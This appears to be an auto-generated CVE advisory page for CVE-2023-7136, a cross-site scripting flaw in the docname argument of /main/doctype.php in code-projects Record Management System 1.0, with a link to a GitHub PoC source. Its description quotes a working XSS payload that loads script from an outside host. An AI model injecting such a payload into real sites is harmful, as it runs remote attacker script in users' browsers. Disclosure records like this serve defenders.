 ### [CVE-2023-7136](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7136)
![](https://img.shields.io/static/v1?label=Product&message=Record%20Management%20System&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3D%201.0%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-79%20Cross%20Site%20Scripting&color=brighgreen)

### Description

A vulnerability classified as problematic was found in code-projects Record Management System 1.0. Affected by this vulnerability is an unknown functionality of the file /main/doctype.php of the component Document Type Handler. The manipulation of the argument docname with the input "><script src="https://js.rip/b23tmbxf49"></script> leads to cross site scripting. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-249139.

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/h4md153v63n/h4md153v63n

